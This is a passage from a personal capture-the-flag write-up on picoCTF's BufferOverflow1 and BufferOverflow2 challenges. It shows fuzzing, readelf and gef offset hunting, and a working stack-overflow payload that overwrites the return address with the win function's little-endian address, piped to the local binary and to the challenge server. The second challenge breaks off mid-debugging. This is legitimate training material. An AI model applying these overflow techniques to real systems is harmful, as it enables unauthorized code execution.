








# picoCTF binary explotation series
ref. https://artifacts.picoctf.net

## BufferOverflow1

Tags: 252 

#### You may need to register to picoCTF to access the files
---------------------------------------------------------------------------------

#### Description

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program:

[Link to the vuln program](https://artifacts.picoctf.net/c/252/vuln).

[Link to the source code of the program](https://artifacts.picoctf.net/c/252/vuln.c).

To remotey test and connect [use the link and select binary explotation](https://artifacts.picoctf.net).


#### HINTS:
_Make sure you consider big Endian vs small Endian._

_Changing the address of the return pointer can call different functions._


**First thing need to check is if we can un 32bit apps on our 64bit System in my case I had to  install ib32-glibc**

```
pacman -S **lib32-glibc**

```
---------------------------------------------------------------------------------  
  

### We start running the program and try fuzzing and see how it works 

```
Please enter your string: 
AAA
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

```


```
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x804932f

```

Open a new terminal and write:

```python

❯ python3
Python 3.10.8 (main, Nov  1 2022, 14:18:21) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> "A" * 32
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

>>> "A" * (32+4+4)
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
zsh: segmentation fault (core dumped)  ./vuln
```

The way that C at low level denotes the end of a string, is adding a NULL BYTE which can be represented as:
```
0x00
\\x00
\\0
```

```
dmesg
vuln[166458]: segfault at 41414141 ip 0000000041414141 sp 00000000ffe924f0 error 14 in libc.so.6[f7c00000+1e000]
```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x8049300
zsh: segmentation fault (core dumped)  ./vuln
```

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
zsh: segmentation fault (core dumped)  ./vuln
```


sending some more As we can see that the address is jumping to is changing until is filled up with 0x41414141 Address, but 0x41414141 represents AAAA in hex, so we find the way to control the stack and the address to jump to
```python
>>> ord("A")
65   <- Decimal
>>> hex(65)
'0x41' <- hexadecimal
>>> 
```

```
with dmesg we get 
 segfault at 41414141 ip 0000000041414141 sp 00000000ffa36570 error 14 in libc.so.6[f7c00000+1e000]
```

**IP instructor pointer**
ip basically means that we can now jump wherever we want to, but where to jump?\
We want to jump to the funtion "win" but we need to locate this in the binary so we can use
a toold readelf **READELF install pacman -S binutils

This is where do we want to go in the source file

```
void win() {
  12   │   char buf[FLAGSIZE];
  13   │   FILE *f = fopen("flag.txt","r");
  14   │   if (f == NULL) {
  15   │     printf("%s %s", "Please create 'flag.txt' in this director
       │ y with your",
  16   │                     "own debugging flag.\n");
  17   │     exit(0);
  18   │   }
```

Since we want to find information of this function in the binary, we use readelf interesting tag which is -s or --syms \
Display the symbol table _this case work because when we run :file vuln there's the info telling is 'not stripped'_
So\
```
readelf -s vuln
```

Bum, address of the win function

```python

    62: 08049350   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win
    64: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
    65: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
    66: 0804c040     0 NOTYPE  GLOBAL DEFAULT   24 _end
    67: 08049120     5 FUNC    GLOBAL HIDDEN    13 _dl_relocate_sta[...]


 080491f6   139 FUNC    GLOBAL DEFAULT   13 win

 ```


Back to the application we can confirm that we can write the address of the instructor

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Okay, time to return... Fingers Crossed... Jumping to 0x42424242
zsh: segmentation fault (core dumped)  ./vuln

```
now the address changed to 0x42424242 <-BBBB

But if we pass the address we want to go: 080491f6

```
❯ ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA080491f6
Okay, time to return... Fingers Crossed... Jumping to 0x34303830
zsh: segmentation fault (core dumped)  ./vuln
```
Output shows not the correct  address we want to go and this is because in memory it stored filped over\
So **instead of 0x080491f6 in little endian 0xf6910408 and byte by byte would be the proper format eg "\xf6\x91\x04\x08"**

In python also is not representing the way it shout, there's this ö character which smells bad
 
 ```
 "A" * (32+4+4+4)+"\xf6\x91\x04\x08"
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö\x91\x04\x08'
```

```
❯ ./vuln
Please enter your string: 
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAö\x91\x04\x08'
Okay, time to return... Fingers Crossed... Jumping to 0x5cb6c341
zsh: segmentation fault (core dumped)  ./vuln
```
and wrong address again Jumping to 0x5cb6c341

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08

```
❯ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 c3b6 c291  AAAAAAAAAAAA....
00000030: 0408 0a  

 c3b6 c291 0408 0a  
```

this looks a bit strange of what we passed: c3b6 
```
❯ python3 -c "print('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x91c2b6c3
zsh: done                              python3 -c  | 
zsh: segmentation fault (core dumped)  ./vuln
```
Wrong address again Jumping to 0x91c2b6c3\

------------------------------------------------------------------------------------------
### HINT

**PRINT IS  NOT OUR FRIEND ANYMORE BECAUSE IT DOESN'T DISPLAY THE PROPER CHARACTERS BUT IT TRIES TO PRINT SOMETHING THAT CAN BE CLOSEST OR FOR ANOTHER USE**

-----------------------------------------------------------------------------------------

To do this ''inline'' which it drops you on the shell after the program 
```
❯ python3 -c
```
```
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')"
output
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
```
```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" |xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 f691 0408  AAAAAAAAAAAA....
```

Now looks exactly what we want fliped over like little endian and we can try to pass it trhough and it interprets the jumping address

```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
Please create 'flag.txt' in this directory with your own debugging flag.

```


Now start looking quite interesting, what if we create a flag.txt in our directory
```bash
echo 'KELFLAG{Toma_ya_lo_tenemo}' > flag.txt
```

```python
❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
KELFLAG{Toma_ya_lo_tenemo}
zsh: done                              python3 -c  | 
zsh: segmentation fault (core dumped)  ./vuln
```

!!!!! paaaaammm!!!!! it prints our file

Now all we have to do is run our script agains the server and see if we can get the flag:

```python

❯ python3 -c "import sys; sys.stdout.buffer.write(b'AAAAAAAAAAAAAAAAAAAAAAAAAA ...
AAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08')" | nc saturn.picoctf.net 51340

```

but it doesn't send or run on the server so let's create an exploit in python


---

<br /><br />


## BufferOverflow2


Tags: 

#### You may need to register to picoCTF to access the files
---------------------------------------------------------------------------------

#### Description

Control the return address and arguments.\
This time you'll need to control the arguments to the function you return to! Can you get the flag from this

[Link to the vuln program](https://artifacts.picoctf.net/c/346/vuln)

[Link to the source code of the program](https://artifacts.picoctf.net/c/346/vuln.c).


To remotey test and connect [use the link and select binary explotation](https://artifacts.picoctf.net).

`nc saturn.picoctf.net 55810`


#### HINTS:


**REQUIRED**
* lib32-glibc for 64bit Linux OSes
* pwntools
* gef


### First Steps

Check the file with 
```
file ./vuln
```

We can do some findings about interesting things


checksec vuln

``` bash
❯ ./checksec ~/CTF/picoCTF/BufferOverflow2/vuln
[*] '/home/mac/CTF/picoCTF/BufferOverflow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)


```

The Hole idea is to get to win function but in order to do that we have to pass the fgets abd vuln functions.

``` python

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

```

And we can find where is the win function in memory.

``` bash

readelf -s vuln

    61: 0804a004     4 OBJECT  GLOBAL DEFAULT   17 _IO_stdin_used
    62: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    63: 080493f0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
  **64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win**
    65: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
    66: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
    67: 0804c040     0 NOTYPE  GLOBAL DEFAULT   26 _end

```
We can also do this with pwn tools

```python

❯ python3
Python 3.10.8 (main, Nov  1 2022, 14:18:21) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pwn
>>> elf=pwn.ELF("./vuln")
[*] '/home/mac/CTF/picoCTF/BufferOverflow2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
>>> print (hex(elf.symbols["win"]))
0x8049296

```
Note that we can search for the win function because the program is not **Stripped**
Now the ideal is to interact with the binary locally  so we can add a variable process and attach gdb for debugging.

``` python
elf=pwn.ELF("./vuln")

p = elf.process()
g = pwn.gdb.attach(p)

```
And when we run the program:





* In my case I had to run the program in tmux, in kitty it just didn't work out of the box.
* When _python3 ./vuln_ you get the tmux window splitted so it's convenient to resize it 
* tmux resize: _'ctrl + b' and then z_

Now that we have everything in place let's try to find the offset. We will create a pattern with gdb so when we send it to vuln as an argument we will be able to evaluate it with gdb

pattern create



``` bash
gef➤  r
Starting program: /home/mac/CTF/picoCTF/BufferOverflow2/vuln 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc6000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaak

```


From this point we see that:

* We have a 32 bit app
* We have a SigFault
* We stopped at 0x62616164
* 0x62616164 is the eip _extended instructor pointer_

_Extended Instruction Pointer is used to track the address of the current instruction running inside the application._


what we could do is to check for the offset of eip

``` bash
gef➤  pattern offset $eip
[+] Searching for '$eip'
**[+] Found at offset 112 (little-endian search) likely**
[+] Found at offset 304 (big-endian search) 
gef➤  

```
So the easy think now would be:

```bash

gef➤  pattern create 112
[+] Generating a pattern of 112 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab
[+] Saved as '$_gef1'
gef➤  

```
Now we can run the application again and at the end of our new 112 patter, we add "CCCC"

```bash
gef➤  r
Starting program: /home/mac/CTF/picoCTF/BufferOverflow2/vuln 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0xf7fc6000'
[Thread debugging using libthread_db enabled]
